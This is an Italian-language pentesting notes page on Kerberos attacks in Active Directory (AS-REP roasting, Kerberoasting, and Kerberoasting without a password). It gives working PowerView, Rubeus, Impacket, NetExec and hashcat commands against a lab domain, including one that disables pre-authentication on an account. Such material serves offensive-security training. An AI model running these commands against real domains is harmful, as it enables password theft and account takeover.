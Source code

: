 ```yaml
---
description: Kerberos Ticket Request Attacks
authors: pozivonpm
category: ad, kerberos
---
```

# Ticket Request Attacks

Ci sono due modi per richiedere un ticket: 

- TGT o `AS-REQ`, a cui il KDC risponde con un `AS-REP`
- Richiesta TGS, o `TGS-REQ`, a cui il KDC risponde con un `TGS-REP`

### AS-REP Roasting

Quando abbiamo richiesto un TGT (AS-REQ), abbiamo visto che `per impostazione predefinita`, un utente deve autenticarsi tramite un `autenticatore` crittografato con il proprio segreto. Tuttavia, se un utente ha **disabilitato la  preautenticazione**, potremmo richiedere i dati di autenticazione per  quell'utente e il KDC restituirà un messaggio AS-REP. Poiché parte di  tale messaggio (la chiave di sessione temporanea condivisa) viene  crittografata utilizzando la password dell'utente, è possibile eseguire  **un attacco di forza bruta offline per tentare di recuperare la password** dell'utente.

Ci sono **altri modi** in cui possiamo sfruttare questo attacco, se si hanno delle autorizzazioni `GenericWrite` o `GenericAll` per un account. In tal caso, possono abilitare questo attributo e  ottenere il ticket AS_REP per il cracking offline per recuperare la  password dell'account prima di disabilitarlo nuovamente; il successo dipende dal fatto che l'utente abbia una password relativamente debole. 

**ENUMERAZIONE**
::: tabs
=== PowerView

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) può essere usato per enumerare gli utenti con il flag della proprietà [UserAccountControl](https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) (`UAC`) impostato su `DONT_REQ_PREAUTH`.

```powershell
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```
=== Rubeus
Possiamo anche utilizzare `Rubeus.exe asreproast /format:hashcat` per enumerare tutti gli account con il flag `DONT_REQ_PREAUTH`.

```powershell
.\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt
```
=== Impacket

```bash
impacket-GetNPUsers '$domain'/'$user':'$passwd' -dc-ip '$ip' -no-pass | grep '\$krb5asrep\$' > as-rep.txt

impacket-GetNPUsers -request '$domain'/'$user':'$passwd' -dc-ip '$ip' -outputfile as-rep.txt

impacket-GetNPUsers '$domain'/ -dc-ip '$ip' -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass
```

=== NetExec

```bash
nxc ldap $ip -u '$user' -p '$passwd' --asreproast as-rep.txt
```
:::
Se la pre-autenticazione è disabilitata per un utente, l'invio di un nome utente valido fa sì che il KDC risponda con un messaggio AS-REP valido.
**Se la pre-autenticazione è abilitata, le risposte del KDC variano in base all'esistenza del nome utente o meno:**

`KRB5KDC_ERR_PREAUTH_REQUIRED` - Se è richiesta la pre-autenticazione e l'utente esiste.
`KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN` - Se l'utente non esiste.


**CRACKING HASH**

```bash
hashcat.exe -m 18200 hashes.txt /Tools/rockyou.txt -O
john --wordlist=/Tools/rockyou.txt hashes.txt
```

**Impostare DONT_REQ_PREAUTH con PowerView**

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=userName)(name=userName)(displayname=userName))))
VERBOSE: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'userName'
```

### Kerberoasting

Allo stesso modo, quando un utente dispone di un TGT, può richiedere un  ticket di servizio per qualsiasi servizio esistente. La risposta KDC (TGS-REP) contiene informazioni crittografate con il segreto `dell'account del servizio`. Se l'account del servizio ha una password debole, è possibile eseguire lo stesso attacco offline per recuperare la password per quell'account.

`Kerberoasting` è un attacco contro gli account del servizio che consente a un utente  malintenzionato di eseguire un attacco di cracking delle password  offline contro l'account Active Directory associato al servizio. È  simile ad ASREPRoasting, ma richiede l'autenticazione preventiva al  dominio. In altre parole, per eseguire l'attacco abbiamo bisogno di un  account utente di dominio e di una password validi (anche quelli con  privilegi più bassi) o di una shell SYSTEM (o di un account di dominio  con privilegi bassi) su una macchina aggiunta a un dominio.

Quando un servizio viene registrato, un [nome dell'entità servizio (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) viene aggiunto ad Active Directory ed è un alias di un account AD  effettivo. Le informazioni archiviate in Active Directory includono il  nome del computer, la porta e l'hash della password dell'account AD. In  una configurazione corretta, gli "account di servizio" vengono  utilizzati con questi SPN per garantire una password complessa. Questi  account sono come gli account macchina e possono anche avere password a  rotazione automatica.

Un account che espone un servizio ha un nome dell'entità servizio (o SPN). Si tratta di un attributo LDAP impostato sull'account che indica  l'elenco dei servizi esistenti forniti da questo account. Se questo  attributo non è vuoto, questo account offre almeno un servizio. 

**ENUMERAZIONE:**

::: tabs
=== PowerView

[PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) può essere utilizzato per enumerare gli utenti con un SPN impostato e richiedere automaticamente il `ticket di servizio (ST)` per produrre un hash crackabile.

```powershell
Get-DomainUser -SPN
```

Possiamo anche utilizzare l'uso di PowerView per eseguire direttamente l'attacco Kerberoasting.

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
```

Invece del metodo manuale illustrato sopra, possiamo utilizzare la funzione `Invoke-Kerberoast` per eseguire questa operazione rapidamente.

```powershell
Invoke-Kerberoast
```

=== Rubeus
Possiamo usare Rubeus per Kerberoast tutti gli utenti disponibili e restituire i loro hash per il cracking offline. 

```powershell
C:\Tools>Rubeus.exe kerberoast /nowrap
```

=== Impacket
**IMPACKET**

```bash
impacket-GetUserSPNs '$domain'/'$user' -request
```
:::

**CRACKING HASH**

```bash
hashcat.exe -m 13100 hashes.txt /Tools/rockyou.txt
hashcat -m 13100 hashes.txt rockyou.txt
```

### Kerberoasting senza password dell'account

 C'è un caso in cui possiamo eseguire un attacco Kerberoasting senza un account di dominio e una password validi, quando siamo a conoscenza di un account senza la preautenticazione Kerberos abilitata.

Possiamo utilizzare questo account per utilizzare una richiesta `AS-REQ` (solitamente utilizzata per richiedere un TGT) per richiedere un ticket TGS per un utente Kerberoastable. Questo viene fatto modificando la parte req-body della richiesta.

Per eseguire questo attacco, abbiamo bisogno di quanto segue: 

1. Nome utente di un account con la preautenticazione disabilitata (`DONT_REQ_PREAUTH`).
2. Un nome SPN di destinazione o un elenco di nomi SPN. 

```powershell
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```

